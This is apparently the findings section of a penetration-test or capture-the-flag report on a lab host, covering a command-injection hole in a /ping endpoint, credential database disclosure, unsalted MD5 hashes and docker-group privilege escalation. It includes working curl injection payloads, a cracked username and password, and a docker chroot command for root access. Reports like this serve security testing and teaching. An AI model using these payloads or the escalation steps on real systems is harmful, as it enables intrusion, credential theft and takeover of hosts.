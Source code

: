 ## 5. Findings
### 5.1 Remote Code Execution in `/ping` endpoint
- **Vector:**  Unfiltered back-tick expansion inside ip parameter. 

- **Proof of Concept:** 

    ```BASH
    curl "http://10.10.106.75:8081/ping?ip=`id`"
    ```
    Response shows execution of `/usr/bin/id` on the server.

- **Impact:** Arbitrary command execution with Node.js service account privileges.

- **Severity:** Critical

<span>&nbsp;</span>

### 5.2 SQLite Database Disclosure
- **Vector:** RCE used to list files, revealing utech.db.sqlite.  

- **Proof of Concept:** 
    ```BASH
    curl "http://10.10.106.75:8081/ping?ip=%60ls%60"
    ```
- **Impact:** Download of full credential store.

- **Severity:** High

<span>&nbsp;</span>

### 5.3 Weak Password Storage and Cracking
- **Vector:** Unsalted MD5 hashes stored in the SQLite users table.
- **Proof of Concept:**
    ```BASH
    curl "http://10.10.106.75:8081/ping?ip=%60tail%20-c%20+100%20utech.db.sqlite%20|%20base64%60"
    ```
    Result: r00t:n100906

- **Impact:** Disclosure of credentials enables direct SSH login.

- **Severity:** High

<span>&nbsp;</span>

## 5.4 Privilege Escalation via docker Group
- **Vector:** User r00t is in docker group

- **Proof of Concept:**
    ```BASH
    id
    docker images
    docker run --rm -v /:/mnt -it bash chroot /mnt bash
    ```
